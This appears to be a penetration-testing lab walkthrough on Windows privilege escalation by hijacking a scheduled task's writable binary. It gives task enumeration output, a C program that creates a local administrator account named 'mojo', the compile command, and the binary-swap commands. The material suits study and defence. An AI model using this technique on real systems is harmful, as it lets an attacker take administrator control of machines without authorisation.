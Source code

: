 # Scheduled Tasks

In this example we discover a scheduled task with the author being a member of `Administrators`, yet we have full access to the related binary

```powershell
schtasks /query /fo LIST /v
```

```
...
Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
...
```

In the output, we are specifically looking at the rows

- `TaskName`
- `Next Run Time`
- `Task To Run`
- `Run As User`

We can gather from the output that the program is running every minute, and executing as `daveadmin`, who is a member of `Administrators`.

We can also check the permissions of the `Task To Run` binary and discover we have full permissions to the binary

```powershell
icacls "C:\Users\steve\Pictures\BackendCacheCleanup.exe"
```

To exploit this, we can simply use the following `adduser.c` program

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user mojo password123! /add");
  i = system ("net localgroup administrators mojo /add");
  
  return 0;
}
```

Compilation

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Now after moving `adduser.exe` onto the target, we will make a backup of the original task just in case, before replacing it

```powershell
mv Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
mv BackEndCacheCleanup.exe Pictures
```

Then after a minute we can check and see that our new user has been created

```powershell
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```
